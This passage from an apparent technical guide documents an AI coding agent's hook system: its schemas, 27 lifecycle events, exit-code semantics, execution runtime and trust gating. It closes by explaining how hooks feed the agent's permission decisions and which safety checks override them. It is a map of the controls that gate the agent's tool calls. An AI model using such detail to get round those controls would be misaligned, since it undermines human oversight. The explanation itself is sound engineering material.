  command: z.string().describe('Shell command to execute'),
  if: IfConditionSchema(),
  shell: z
    .enum(SHELL_TYPES)
    .optional()
    .describe(
      "Shell interpreter. 'bash' uses your $SHELL (bash/zsh/sh); 'powershell' uses pwsh. Defaults to bash.",
    ),
  timeout: z
    .number()
    .positive()
    .optional()
    .describe('Timeout in seconds for this specific command'),
  statusMessage: z
    .string()
    .optional()
    .describe('Custom status message to display in spinner while hook runs'),
  once: z
    .boolean()
    .optional()
    .describe('If true, hook runs once and is removed after execution'),
  async: z
    .boolean()
    .optional()
    .describe('If true, hook runs in background without blocking'),
  asyncRewake: z
    .boolean()
    .optional()
    .describe(
      'If true, hook runs in background and wakes the model on exit code 2 (blocking error). Implies async.',
    ),
})
```

The `command` type is the most feature-rich: it supports shell selection (`shell`), background execution (`async`), and the async-rewake pattern (`asyncRewake`) that re-injects blocking errors into the model's context after the hook finishes. The `prompt` type delegates to an LLM evaluation, the `http` type POSTs hook input JSON to a URL with optional env-var interpolation in headers, and the `agent` type spawns a subagent verifier. The discriminated union is exported via `HookCommandSchema` at `src/schemas/hooks.ts:L176-L189`:

```typescript
// src/schemas/hooks.ts:L176-L189 — HookCommandSchema discriminated union
export const HookCommandSchema = lazySchema(() => {
  const {
    BashCommandHookSchema,
    PromptHookSchema,
    AgentHookSchema,
    HttpHookSchema,
  } = buildHookSchemas()
  return z.discriminatedUnion('type', [
    BashCommandHookSchema,
    PromptHookSchema,
    AgentHookSchema,
    HttpHookSchema,
  ])
})
```

The `prompt` type at `src/schemas/hooks.ts:L67-L95` delegates evaluation to an LLM. Its required `prompt` field contains the prompt text, with `$ARGUMENTS` as a placeholder for the hook input JSON. An optional `model` field specifies which model to use (e.g., `"claude-sonnet-4-6"`), defaulting to a small fast model if not specified. Prompt hooks are useful for intelligent gate decisions that require semantic understanding of tool inputs -- for example, determining whether a file write introduces a security vulnerability.

The `http` type at `src/schemas/hooks.ts:L97-L126` POSTs the hook input JSON to a specified URL. It supports custom headers with environment variable interpolation, gated by an `allowedEnvVars` allowlist. The `headers` field at `src/schemas/hooks.ts:L107-L111` uses `z.record(z.string(), z.string())` for arbitrary key-value pairs, with values that may reference environment variables using `$VAR_NAME` or `${VAR_NAME}` syntax:

```typescript
// src/schemas/hooks.ts:L107-L117 — HTTP headers and allowedEnvVars
headers: z
  .record(z.string(), z.string())
  .optional()
  .describe(
    'Additional headers to include in the request. Values may reference environment variables using $VAR_NAME or ${VAR_NAME} syntax (e.g., "Authorization": "Bearer $MY_TOKEN"). Only variables listed in allowedEnvVars will be interpolated.',
  ),
allowedEnvVars: z
  .array(z.string())
  .optional()
  .describe(
    'Explicit list of environment variable names that may be interpolated in header values. Only variables listed here will be resolved; all other $VAR references are left as empty strings. Required for env var interpolation to work.',
  ),
```

Without an `allowedEnvVars` entry, all `$VAR` references in header values are left as empty strings. This design prevents accidental leakage of sensitive environment variables through HTTP hook configurations. HTTP hooks are executed with SSRF protection via `src/utils/hooks/ssrfGuard.ts`, which blocks connections to private, link-local, and CGNAT address ranges.

The `agent` type at `src/schemas/hooks.ts:L128-L163` spawns a subagent verifier. Its `prompt` field describes what the agent should verify (e.g., "Verify that unit tests ran and passed"), with `$ARGUMENTS` as a placeholder for hook input. An optional `model` field specifies the agent's model, defaulting to Haiku as documented in the schema description at `src/schemas/hooks.ts:L149-L153`. A notable design constraint is documented in the comment at `src/schemas/hooks.ts:L130-L137`: DO NOT add `.transform()` to the prompt field because the schema is used by `parseSettingsFile`, and `updateSettingsForSource` round-trips the parsed result through `JSON.stringify` -- a transformed function value would be silently dropped, deleting the user's prompt from `settings.json`. This was a real regression (gh-24920, CC-79) that prompted the explicit comment.

A fifth type -- `function` -- exists at runtime but is excluded from `HookCommandSchema` because function hooks are in-memory callbacks that cannot be persisted to settings files. The comment at `src/schemas/hooks.ts:L174` makes this explicit: "Schema for hook command (excludes function hooks - they can't be persisted)." Function hooks are registered programmatically via the session hook registry and exist only for the duration of a session.

### The `if` condition field

All four hook types share an `if` field defined by `IfConditionSchema` at `src/schemas/hooks.ts:L19-L27`. This field uses permission-rule syntax (e.g., `"Bash(git *)"`, `"Read(*.ts)"`) to filter which tool invocations trigger the hook, evaluated against the hook input's `tool_name` and `tool_input`. Without an `if` condition, the hook fires for every invocation of its parent event. The `if` field is part of hook identity: two hooks with the same command but different `if` conditions are distinct entries (e.g., `setup.sh` with `if=Bash(git *)` versus `if=Bash(npm *)`), as enforced by `isHookEqual()` at `src/utils/hooks/hooksSettings.ts:L43-L44`.

### Hook matchers and settings structure

Hooks are grouped by event and matcher in the settings file. The `HookMatcherSchema` at `src/schemas/hooks.ts:L194-L204` pairs an optional `matcher` string with an array of hooks:

```typescript
// src/schemas/hooks.ts:L194-L204 — HookMatcherSchema
export const HookMatcherSchema = lazySchema(() =>
  z.object({
    matcher: z
      .string()
      .optional()
      .describe('String pattern to match (e.g. tool names like "Write")'),
    hooks: z
      .array(HookCommandSchema())
      .describe('List of hooks to execute when the matcher matches'),
  }),
)
```

The top-level `HooksSchema` at `src/schemas/hooks.ts:L211-L213` maps event names to arrays of matchers, using `z.partialRecord` so that only the events a user configures need to be present:

```typescript
// src/schemas/hooks.ts:L211-L213 — HooksSchema
export const HooksSchema = lazySchema(() =>
  z.partialRecord(z.enum(HOOK_EVENTS), z.array(HookMatcherSchema())),
)
```

### Hook result type

The execution runtime returns a `HookResult` defined in `src/utils/hooks.ts:L338-L357`. This is the three-outcome model: every hook execution produces one of `success`, `blocking`, or `non_blocking_error` (plus `cancelled` for external interruption). The result can carry a `blockingError`, a `systemMessage`, a `permissionBehavior` override, updated tool input (`updatedInput`), additional context for the model, and event-specific payloads like `elicitationResponse` or `watchPaths`.

```typescript
// src/utils/hooks.ts:L338-L357 — HookResult interface
export interface HookResult {
  message?: HookResultMessage
  systemMessage?: string
  blockingError?: HookBlockingError
  outcome: 'success' | 'blocking' | 'non_blocking_error' | 'cancelled'
  preventContinuation?: boolean
  stopReason?: string
  permissionBehavior?: 'ask' | 'deny' | 'allow' | 'passthrough'
  hookPermissionDecisionReason?: string
  additionalContext?: string
  initialUserMessage?: string
  updatedInput?: Record<string, unknown>
  updatedMCPToolOutput?: unknown
  permissionRequestResult?: PermissionRequestResult
  elicitationResponse?: ElicitationResponse
  watchPaths?: string[]
  elicitationResultResponse?: ElicitationResponse
  retry?: boolean
  hook: HookCommand | HookCallback | FunctionHook
}
```

When multiple hooks fire for the same event, their results are aggregated into an `AggregatedHookResult` at `src/utils/hooks.ts:L359-L376`. The aggregation follows a conservative merge strategy: if any hook returns a `blockingError`, the aggregated result includes it. If multiple hooks provide `additionalContext`, all contexts are collected into the `additionalContexts` array. Permission behaviors are merged with deny taking precedence over allow, consistent with cc's deny-first evaluation principle.

## Control flow

### The 27 lifecycle events

The complete event list is defined as a const array in `src/entrypoints/sdk/coreTypes.ts:L25-L53`. There are 27 events:

```typescript
// src/entrypoints/sdk/coreTypes.ts:L25-L53 — HOOK_EVENTS
export const HOOK_EVENTS = [
  'PreToolUse',
  'PostToolUse',
  'PostToolUseFailure',
  'PermissionDenied',
  'Notification',
  'UserPromptSubmit',
  'SessionStart',
  'SessionEnd',
  'Stop',
  'StopFailure',
  'SubagentStart',
  'SubagentStop',
  'PreCompact',
  'PostCompact',
  'PermissionRequest',
  'Setup',
  'TeammateIdle',
  'TaskCreated',
  'TaskCompleted',
  'Elicitation',
  'ElicitationResult',
  'ConfigChange',
  'WorktreeCreate',
  'WorktreeRemove',
  'InstructionsLoaded',
  'CwdChanged',
  'FileChanged',
] as const
```

These events group by functional domain:

| Domain | Events |
|--------|--------|
| Tool dispatch | PreToolUse, PostToolUse, PostToolUseFailure |
| Permissions | PermissionRequest, PermissionDenied |
| Session lifecycle | SessionStart, SessionEnd, Setup |
| Model completion | Stop, StopFailure |
| Subagents | SubagentStart, SubagentStop |
| Context compaction | PreCompact, PostCompact |
| User interaction | UserPromptSubmit, Notification, Elicitation, ElicitationResult |
| Task management | TaskCreated, TaskCompleted, TeammateIdle |
| Filesystem/watch | CwdChanged, FileChanged, WorktreeCreate, WorktreeRemove |
| Configuration | ConfigChange, InstructionsLoaded |

### Per-event metadata and matcher semantics

Each event has associated metadata defined in `getHookEventMetadata()` in `src/utils/hooks/hooksConfigManager.ts:L26-L267`. This metadata includes a human-readable summary, a description of exit-code semantics, and optional `matcherMetadata` that defines what the `matcher` field matches against for that event. For example:

- `PreToolUse` and `PostToolUse` match against `tool_name` (the list of available tool names).
- `Notification` matches against `notification_type` (e.g., `permission_prompt`, `idle_prompt`, `auth_success`, `elicitation_dialog`, `elicitation_complete`, `elicitation_response`).
- `PreCompact` and `PostCompact` match against `trigger` (`manual` or `auto`).
- `InstructionsLoaded` matches against `load_reason` (`session_start`, `nested_traversal`, `path_glob_match`, `include`, `compact`).
- `Stop` and `UserPromptSubmit` have no matcher -- they fire unconditionally.

The `PreToolUse` entry at `src/utils/hooks/hooksConfigManager.ts:L29-L37` illustrates the pattern:

```typescript
// src/utils/hooks/hooksConfigManager.ts:L29-L37 — PreToolUse metadata
PreToolUse: {
  summary: 'Before tool execution',
  description:
    'Input to command is JSON of tool call arguments.\nExit code 0 - stdout/stderr not shown\nExit code 2 - show stderr to model and block tool call\nOther exit codes - show stderr to user only but continue with tool call',
  matcherMetadata: {
    fieldToMatch: 'tool_name',
    values: toolNames,
  },
},
```

The `Notification` event at `src/utils/hooks/hooksConfigManager.ts:L65-L79` matches against `notification_type` values including `permission_prompt`, `idle_prompt`, `auth_success`, `elicitation_dialog`, `elicitation_complete`, and `elicitation_response`:

```typescript
// src/utils/hooks/hooksConfigManager.ts:L65-L79 — Notification metadata
Notification: {
  summary: 'When notifications are sent',
  description:
    'Input to command is JSON with notification message and type.\nExit code 0 - stdout/stderr not shown\nOther exit codes - show stderr to user only',
  matcherMetadata: {
    fieldToMatch: 'notification_type',
    values: [
      'permission_prompt',
      'idle_prompt',
      'auth_success',
      'elicitation_dialog',
      'elicitation_complete',
      'elicitation_response',
    ],
  },
},
```

### Exit-code semantics

Exit-code handling varies by event and follows three patterns:

1. **Block-on-2** (PreToolUse, Stop, SubagentStop, TaskCreated, TaskCompleted, TeammateIdle, UserPromptSubmit): Exit code 2 causes the hook's stderr to be shown to the model and the action is blocked or the conversation continues. Exit code 0 means success with no output shown to the model.

2. **Show-on-2** (PostToolUse, PostToolUseFailure, PermissionDenied): Exit code 2 shows stderr to the model immediately. Other non-zero codes show stderr to the user only.

3. **Output-as-input** (SessionStart, PreCompact): Exit code 0 means stdout is fed back as additional context (custom compact instructions for PreCompact, additional context for SessionStart).

```mermaid
flowchart TD
    A[Hook process exits] --> B{Exit code?}
    B -->|0| C{Event type?}
    C -->|PreToolUse / Stop / SubagentStop| D[Success: no output shown to model]
    C -->|PostToolUse / PostToolUseFailure| E[Success: stdout shown in transcript mode]
    C -->|SessionStart / Setup| F[Success: stdout shown to Claude as additional context]
    C -->|PreCompact| G[Success: stdout appended as custom compact instructions]
    C -->|UserPromptSubmit| H[Success: stdout shown to Claude]
    B -->|2| I{Event type?}
    I -->|PreToolUse / UserPromptSubmit| J[Block action: show stderr to model]
    I -->|Stop / SubagentStop| K[Continue: show stderr to model]
    I -->|PostToolUse| L[Show stderr to model immediately]
    I -->|PreCompact| M[Block compaction]
    I -->|TaskCreated / TaskCompleted / TeammateIdle| N[Block action: show stderr to model]
    B -->|Other non-zero| O[Show stderr to user only]
    B -->|StopFailure| P[Fire-and-forget: output ignored]
```

The `StopFailure` event at `src/utils/hooks/hooksConfigManager.ts:L100-L116` is unique: it fires instead of `Stop` when an API error (rate limit, auth failure, etc.) ended the turn, and it is fire-and-forget -- hook output and exit codes are ignored entirely. This prevents a misbehaving StopFailure hook from blocking the agent from reporting errors.

### The complete event catalogue as an entity relationship

The following diagram maps every event to its trigger point, matcher field, and the hook types that commonly handle it:

```mermaid
erDiagram
    EVENT ||--o{ MATCHER : "filtered by"
    EVENT ||--o{ HOOK : "triggers"
    HOOK {
        string type
        string command_or_prompt_or_url
        string if_condition
        number timeout
        boolean once
        boolean async
    }
    EVENT {
        string name
        string summary
        string matcher_field
    }
    PreToolUse ||--o{ HOOK : "before tool call"
    PostToolUse ||--o{ HOOK : "after tool call"
    PostToolUseFailure ||--o{ HOOK : "after tool failure"
    PermissionDenied ||--o{ HOOK : "after classifier deny"
    PermissionRequest ||--o{ HOOK : "on permission dialog"
    Notification ||--o{ HOOK : "on notification"
    UserPromptSubmit ||--o{ HOOK : "on user input"
    SessionStart ||--o{ HOOK : "on session begin"
    SessionEnd ||--o{ HOOK : "on session close"
    Stop ||--o{ HOOK : "before model concludes"
    StopFailure ||--o{ HOOK : "on API error"
    SubagentStart ||--o{ HOOK : "before subagent runs"
    SubagentStop ||--o{ HOOK : "before subagent ends"
    PreCompact ||--o{ HOOK : "before compaction"
    PostCompact ||--o{ HOOK : "after compaction"
    Setup ||--o{ HOOK : "on repo init"
    TeammateIdle ||--o{ HOOK : "before teammate idles"
    TaskCreated ||--o{ HOOK : "on task creation"
    TaskCompleted ||--o{ HOOK : "on task completion"
    Elicitation ||--o{ HOOK : "on MCP elicitation"
    ElicitationResult ||--o{ HOOK : "after MCP elicitation"
    ConfigChange ||--o{ HOOK : "on settings file change"
    WorktreeCreate ||--o{ HOOK : "on worktree creation"
    WorktreeRemove ||--o{ HOOK : "on worktree removal"
    InstructionsLoaded ||--o{ HOOK : "on CLAUDE.md load"
    CwdChanged ||--o{ HOOK : "on directory change"
    FileChanged ||--o{ HOOK : "on watched file change"
```

### Hook execution runtime

The execution engine in `src/utils/hooks.ts` handles the full lifecycle of spawning a hook process, feeding it input, collecting output, parsing JSON responses, enforcing timeouts, and routing results back into the query loop.

**Command hook execution.** The `execCommandHook()` function at `src/utils/hooks.ts:L747-L894` is the primary execution path for command-type hooks. It resolves the shell (bash or PowerShell), substitutes plugin variables, sets environment variables (including `CLAUDE_PROJECT_DIR`, `CLAUDE_PLUGIN_ROOT`, `CLAUDE_ENV_FILE`), spawns a child process, and manages the stdout/stderr collection. The default timeout is `TOOL_HOOK_EXECUTION_TIMEOUT_MS` (10 minutes) at `src/utils/hooks.ts:L166`, with a tighter bound of 1500ms for `SessionEnd` hooks at `src/utils/hooks.ts:L175`.

**JSON output parsing.** After a hook exits, its stdout is parsed by `parseHookOutput()` at `src/utils/hooks.ts:L399-L451`. If the output starts with `{`, it is validated against `hookJSONOutputSchema` via `validateHookJson()` at `src/utils/hooks.ts:L382-L397`. Structured JSON output can carry `decision` (approve/block), `permissionDecision` (allow/deny/ask), `continue` (boolean), `systemMessage`, `stopReason`, and `hookSpecificOutput` with event-specific fields. Non-JSON output is treated as plain text.

**Hook result processing.** The `processHookJSONOutput()` function at `src/utils/hooks.ts:L489-L737` interprets the structured JSON output and produces a `HookResult`. It handles the common fields (`continue`, `decision`, `systemMessage`), then dispatches on `hookSpecificOutput.hookEventName` to extract event-specific data: `PreToolUse` can carry `updatedInput` to modify the tool call before execution; `PostToolUse` can carry `additionalContext` and `updatedMCPToolOutput`; `PermissionDenied` can set `retry: true`; `Elicitation` and `ElicitationResult` can override the user's response.

**Async and async-rewake hooks.** When `hook.async` or `hook.asyncRewake` is true, `execCommandHook()` writes the JSON input to stdin and transfers the `ShellCommand` to the background via `executeInBackground()` at `src/utils/hooks.ts:L184-L265`. Standard async hooks are registered in the `AsyncHookRegistry` (imported at `src/utils/hooks.ts:L133`) and their results are collected at the end of the turn. Async-rewake hooks bypass the registry entirely: on exit code 2, they enqueue a task-notification via `enqueuePendingNotification()` at `src/utils/hooks.ts:L237-L244`, which wakes the model if it is idle or injects the error mid-query if the model is busy. This design is documented at `src/utils/hooks.ts:L205-L217`:

```typescript
// src/utils/hooks.ts:L205-L217 — asyncRewake bypasses the registry
if (asyncRewake) {
  // asyncRewake hooks bypass the registry entirely. On completion, if exit
  // code 2 (blocking error), enqueue as a task-notification so it wakes the
  // model via useQueueProcessor (idle) or gets injected mid-query via
  // queued_command attachments (busy).
  //
  // NOTE: We deliberately do NOT call shellCommand.background() here, because
  // it calls taskOutput.spillToDisk() which breaks in-memory stdout/stderr
  // capture (getStderr() returns '' in disk mode). The StreamWrappers stay
  // attached and pipe data into the in-memory TaskOutput buffers.
  void shellCommand.result.then(async result => { /* ... */ })
  return true
}
```

**Timeout enforcement.** All hook executions are bounded by a combined abort signal created via `createCombinedAbortSignal()` (imported at `src/utils/hooks.ts:L131`), which merges a parent abort signal with a timeout signal. The default timeout is 10 minutes for tool hooks and 1.5 seconds for `SessionEnd` hooks. When a timeout fires, the child process receives SIGTERM; if it does not exit within a grace period, SIGKILL is sent.

**Trust gating.** The `shouldSkipHookDueToTrust()` function at `src/utils/hooks.ts:L286-L296` enforces that no hooks execute in interactive mode until the user has accepted the workspace trust dialog. This is a defense-in-depth measure: hooks are captured before the trust dialog, so without this check, SessionEnd or SubagentStop hooks could execute even when the user declines trust.

**Hook input serialization.** Each event constructs a typed input object via `createBaseHookInput()` at `src/utils/hooks.ts:L301-L328`, which includes `session_id`, `transcript_path`, `cwd`, `permission_mode`, and optionally `agent_id` and `agent_type`. The `agent_type` field uses a priority resolution at `src/utils/hooks.ts:L319`: a subagent's type (from `toolUseContext`) takes precedence over the session's `--agent` flag. This distinction allows hooks to differentiate between subagent calls (which have both `agent_id` and `agent_type`) and main-thread calls in `--agent` sessions (which have only `agent_type`). Event-specific fields (e.g., `tool_name`, `tool_input`, `tool_use_id` for PreToolUse) are added by the caller. The complete input is serialized as JSON and written to the hook process's stdin with a trailing newline.

**Environment variables for command hooks.** The `execCommandHook()` function sets several environment variables before spawning the hook process at `src/utils/hooks.ts:L882-L926`. The `CLAUDE_PROJECT_DIR` variable points to the stable project root (not the worktree path) because `getProjectRoot()` is never updated when entering a worktree. The `CLAUDE_ENV_FILE` variable is set only for specific events (`SessionStart`, `Setup`, `CwdChanged`, `FileChanged`) and only for bash hooks (not PowerShell), pointing to a `.sh` file where the hook can write env var definitions that will be injected into subsequent BashTool commands. Plugin hooks receive `CLAUDE_PLUGIN_ROOT` and `CLAUDE_PLUGIN_DATA` variables, plus `CLAUDE_PLUGIN_OPTION_*` variables for each user-configured option.

**Shell selection on Windows.** On Windows, command hooks run via Git Bash by default, not `cmd.exe`. The shell resolution at `src/utils/hooks.ts:L976-L983` uses `findGitBashPath()` to locate the Git Bash executable explicitly. When `shell` is set to `'powershell'`, the code at `src/utils/hooks.ts:L958-L972` spawns `pwsh` with `-NoProfile -NonInteractive -Command` flags. The `-NoProfile` flag skips user profile scripts for faster, more deterministic execution, and `-NonInteractive` fails fast instead of prompting. Windows path conversion is handled differently for each shell: bash hooks use `windowsPathToPosixPath()` (a pure-JS regex conversion, memoized with LRU-500), while PowerShell hooks use native paths.

**The `once` flag.** Hooks with `once: true` are removed after their first execution. This is useful for one-time setup commands that should run at `SessionStart` or `Setup` but not on every subsequent event. The removal is handled by the execution runtime after the hook completes, ensuring the hook fires exactly once per session even if the event triggers multiple times.

### Matcher pattern matching

The `matchesPattern()` function in `src/utils/hooks.ts:L1346-L1381` evaluates whether a hook's matcher matches a given query string. It supports three matcher formats:

1. **Empty or wildcard** (`""` or `"*"`): matches everything.
2. **Simple string or pipe-separated list** (`"Write"` or `"Write|Edit"`): exact match against one or more tool names, with pipe-separated names treated as alternatives. Legacy tool names are normalized via `normalizeLegacyToolName()`.
3. **Regex pattern** (`"^Write.*"` or `"^(Write|Edit)$"`): tested against both the primary tool name and any legacy names returned by `getLegacyToolNames()`. Invalid regex patterns are caught and logged rather than crashing the hook execution.

The `if` condition field uses a different matching system based on permission-rule syntax. The `prepareIfConditionMatcher()` function (near `src/utils/hooks.ts:L1390`) performs the expensive work of tool lookup, Zod validation, and tree-sitter parsing for Bash commands once, returning a closure that is called per hook. This optimization is significant because the `if` condition must be evaluated for every hook on every event, and the parsing work is constant regardless of how many hooks use the same `if` condition.

### Prompt-request protocol for interactive hooks

A sophisticated feature of the command hook execution path is the prompt-request protocol. When a `requestPrompt` callback is provided to `execCommandHook()`, the runtime monitors the hook's stdout for JSON lines matching `promptRequestSchema()`. When detected, the runtime invokes `requestPrompt()` with the parsed request, waits for the response, and writes it back to the hook's stdin as JSON. This creates a bidirectional communication channel between the hook process and the agent's user interface.

The implementation at `src/utils/hooks.ts:L1068-L1109` processes stdout line-by-line, maintaining a `lineBuffer` for incomplete lines and a `promptChain` promise that serializes prompt responses to prevent race conditions. After a hook completes, any processed prompt-request lines are stripped from the final stdout at `src/utils/hooks.ts:L1243-L1249` using content matching against the `processedPromptLines` set, so `parseHookOutput()` sees only the final hook result.

### Async detection from first output line

The async hook protocol allows a hook to declare itself asynchronous at runtime by emitting `{"async":true,...}` as its first line of output. The detection logic at `src/utils/hooks.ts:L1112-L1164` checks only the first line of stdout for the async marker. If detected, the hook process is transferred to the background via `executeInBackground()`, the `shellCommandTransferred` flag is set so the finally block does not clean up the process, and the async resolve is called with a zero-status result so the caller does not block.

The comment at `src/utils/hooks.ts:L1112-L1117` explains a subtle timing issue: if the process is fast and writes more output before the 'data' event fires, parsing the full accumulated stdout would fail. Only the first line should be parsed for the async check.

### Hook source resolution and aggregation

The `getAllHooks()` function in `src/utils/hooks/hooksSettings.ts:L92-L161` aggregates hooks from multiple sources with the following priority order: user settings (`~/.claude/settings.json`), project settings (`.claude/settings.json`), local settings (`.claude/settings.local.json`), and session hooks (in-memory, ephemeral). If the enterprise policy `allowManagedHooksOnly` is set, all user/project/local hooks are suppressed and only managed and session hooks are visible.

The function tracks seen file paths with a `Set<string>` at `src/utils/hooks/hooksSettings.ts:L110-L112` to avoid processing duplicates when running from the home directory (where `userSettings` and `projectSettings` both resolve to `~/.claude/settings.json`). Each hook is tagged with its source (`HookSource`) for display in the UI and for priority-based sorting.

The `isHookEqual()` function at `src/utils/hooks/hooksSettings.ts:L33-L65` determines hook identity by comparing type-specific content (command string + shell for command hooks, prompt for prompt/agent hooks, URL for http hooks) and the `if` condition. Timeout is deliberately excluded from identity comparison -- two hooks with the same command but different timeouts are considered the same hook. Shell is part of identity for command hooks: the same command string with different shells (bash vs PowerShell) is treated as distinct hooks, with the default `'bash'` normalizing `undefined` to `'bash'`.

### Grouped hooks by event and matcher

The `groupHooksByEventAndMatcher()` function at `src/utils/hooks/hooksConfigManager.ts:L273-L365` builds a nested record structure: `Record<HookEvent, Record<string, IndividualHookConfig[]>>`, where the outer key is the event name and the inner key is the matcher string (or empty string for events without matchers). This structure supports the hooks configuration UI and is also used by the execution runtime to look up which hooks to fire for a given event and matcher combination.

Plugin hooks are included via `getRegisteredHooks()` at `src/utils/hooks/hooksConfigManager.ts:L324-L361`. Hooks from `PluginHookMatcher` (which has a `pluginRoot` field) are added with `source: 'pluginHook'`. Hooks from `HookCallbackMatcher` (internal callbacks) are shown only when `USER_TYPE === 'ant'`, displayed as `[ANT-ONLY] Built-in Hook` at `src/utils/hooks/hooksConfigManager.ts:L346-L357`.

The `sortMatchersByPriority()` function at `src/utils/hooks/hooksSettings.ts:L230-L271` sorts matcher names by the highest-priority source of their hooks, using the `SOURCES` order. Plugin and builtin hooks receive the lowest priority (index 999), ensuring that user-configured hooks take precedence in the display ordering.

### The hook classDiagram

```mermaid
classDiagram
    class HookCommand {
        <<discriminated union>>
        +type: string
        +if: string
        +timeout: number
        +statusMessage: string
        +once: boolean
    }
    class BashCommandHook {
        +type: "command"
        +command: string
        +shell: "bash"|"powershell"
        +async: boolean
        +asyncRewake: boolean
    }
    class PromptHook {
        +type: "prompt"
        +prompt: string
        +model: string
    }
    class HttpHook {
        +type: "http"
        +url: string
        +headers: Record~string,string~
        +allowedEnvVars: string[]
    }
    class AgentHook {
        +type: "agent"
        +prompt: string
        +model: string
    }
    class HookMatcher {
        +matcher: string
        +hooks: HookCommand[]
    }
    class HooksSettings {
        <<partial record>>
        +HookEvent: HookMatcher[]
    }
    class HookResult {
        +outcome: string
        +blockingError: HookBlockingError
        +permissionBehavior: string
        +additionalContext: string
        +updatedInput: object
        +systemMessage: string
    }
    HookCommand <|-- BashCommandHook
    HookCommand <|-- PromptHook
    HookCommand <|-- HttpHook
    HookCommand <|-- AgentHook
    HookMatcher *-- HookCommand
    HooksSettings *-- HookMatcher
    BashCommandHook ..> HookResult : produces
    PromptHook ..> HookResult : produces
    HttpHook ..> HookResult : produces
    AgentHook ..> HookResult : produces
```

### The executeHooks async generator

The main entry point for hook execution is the `executeHooks()` async generator at `src/utils/hooks.ts:L1952-L1977`. It accepts a `HookInput`, a `toolUseID`, an optional `matchQuery` and `signal`, and yields `AggregatedHookResult` messages. The function first checks two short-circuit conditions: `shouldDisableAllHooksIncludingManaged()` from `src/utils/hooks/hooksConfigSnapshot.ts` (enterprise lockdown), and `CLAUDE_CODE_SIMPLE` mode (stripped-down execution). It then checks workspace trust via `shouldSkipHookDueToTrust()`, resolves matching hooks via `getMatchingHooks()`, and runs them in parallel with individual timeouts.

An important optimization at `src/utils/hooks.ts:L2019-L2067`: when all matching hooks are internal callbacks (e.g., `sessionFileAccessHooks`, `attributionHooks`), the runtime skips span/progress/abortSignal/result-processing overhead. This fast-path measured 6.01 microseconds down to 1.8 microseconds per PostToolUse hit, a 70% reduction.

## Edge cases and failure modes

### Workspace trust gating blocks all hooks

The `shouldSkipHookDueToTrust()` check at `src/utils/hooks.ts:L286-L296` was introduced after historical vulnerabilities where SessionEnd hooks executed when a user declined the trust dialog, and SubagentStop hooks executed when a subagent completed before trust was established. The fix is blanket: in interactive mode, ALL hooks require trust acceptance. In non-interactive (SDK) mode, trust is implicit.

### Plugin directory gone at execution time

When a plugin hook's `pluginRoot` directory no longer exists at execution time (orphan GC race, concurrent session deletion), `execCommandHook()` at `src/utils/hooks.ts:L831-L836` throws an error instead of spawning. This is critical because a missing script would exit with code 2 -- the "block" signal in the hook protocol -- which would brick `UserPromptSubmit` and `Stop` hooks until restart. The pre-check makes this case distinguishable from an intentional block.

### Async-rewake stdin race

For async hooks, the JSON input must be written to stdin before the process is backgrounded. The comment at `src/utils/hooks.ts:L1001-L1006` explains that without the trailing newline, bash `read -r line` returns exit 1 (EOF before delimiter) even though the variable IS populated. The `if read -r line; then ...` pattern would skip the branch, causing hooks to silently fail on standard bash read idioms.

### SessionEnd timeout bound

`SessionEnd` hooks run during shutdown and must complete quickly. The default timeout is 1500ms (`SESSION_END_HOOK_TIMEOUT_MS_DEFAULT` at `src/utils/hooks.ts:L175`), overridable via the `CLAUDE_CODE_SESSIONEND_HOOKS_TIMEOUT_MS` environment variable. This tight bound prevents shutdown from hanging on misbehaving hooks.

### CWD validation before spawn

When an agent worktree is removed, `getCwd()` may return a deleted path via `AsyncLocalStorage`. The spawn would emit an async 'error' event rather than throwing synchronously. The code at `src/utils/hooks.ts:L931-L938` validates the CWD with `pathExists()` and falls back to `getOriginalCwd()` if the current working directory has been deleted.

### JSON output schema enforcement

The `hookJSONOutputSchema` validation at `src/utils/hooks.ts:L382-L397` catches malformed JSON output early. When validation fails, the error message includes the expected schema shape with examples for each `hookSpecificOutput` variant, making it easier for hook authors to debug their scripts.

### Function hooks cannot be persisted

Function hooks (in-memory JavaScript callbacks) are excluded from `HookCommandSchema` because they cannot survive serialization to `settings.json`. The `isHookEqual()` function at `src/utils/hooks/hooksSettings.ts:L62-L63` returns `false` for function hooks since they have no stable identifier for comparison. They exist only in the session hook registry.

### EPIPE error during stdin write

When a hook command exits before reading all of its stdin, the `child.stdin.write()` call emits an EPIPE error. The code at `src/utils/hooks.ts:L1288-L1300` catches EPIPE errors specifically and returns a non-blocking error result rather than crashing. The error message explains that the hook closed stdin before the input was fully written, which typically indicates a hook script that exits immediately without reading its input. When `requestPrompt` is provided (the interactive prompt-request protocol), stdin stays open for prompt responses and EPIPE errors from later writes are suppressed as expected, since the process may have already exited.

### Managed hooks only mode

Enterprise deployments can restrict hook configuration via the `allowManagedHooksOnly` policy setting. When enabled, `getAllHooks()` at `src/utils/hooks/hooksSettings.ts:L97-L101` skips user, project, and local settings entirely, returning only managed and session hooks. This prevents users from installing hooks that could bypass security controls or exfiltrate data, while still allowing enterprise-managed hooks to run. Additionally, `shouldDisableAllHooksIncludingManaged()` from `src/utils/hooks/hooksConfigSnapshot.ts` can disable all hooks (including managed ones) for maximum lockdown.

### HTTP hooks not supported for SessionStart/Setup

HTTP hooks are filtered out for `SessionStart` and `Setup` events. In headless mode, the sandbox ask callback deadlocks because the structuredInput consumer has not started yet when these hooks fire. The filtering happens at `src/utils/hooks.ts:L1853-L1864` where HTTP hooks are removed from the matched list for these two events.

### Hooks and the permission pipeline

Hooks do not exist in isolation from cc's permission system -- they are wired into the permission decision flow at multiple points, and understanding this interaction is essential for building safe harnesses.

The `PreToolUse` hook fires before `useCanUseTool` (Chapter 35) has made its final permission decision. When a PreToolUse hook returns `permissionDecision: 'allow'` in its `hookSpecificOutput`, it sets `permissionBehavior` to `'allow'` in the `HookResult` at `src/utils/hooks.ts:L555-L558`. When it returns `permissionDecision: 'deny'`, it sets `permissionBehavior` to `'deny'` and creates a `blockingError` at `src/utils/hooks.ts:L559-L564`. The `'ask'` value is also supported, which forces the permission dialog to appear even if an auto-mode classifier would have approved the action.

However, hooks are not the final arbiter for safety-critical paths. The `bypassPermissions` mode (Chapter 32) does not bypass hooks -- hooks run regardless of the permission mode -- but hook approvals can be overridden by `bypass-immune` safety checks. A hook's `permissionDecision: 'allow'` cannot override a deny from a safety check with `decisionReason.type === 'safetyCheck'`, which makes certain tools immune to both bypass mode and hook approvals (notably `SendMessage` for cross-machine communication). This two-layer design ensures that hooks provide a configurable control plane while structural controls remain the hard backstop.

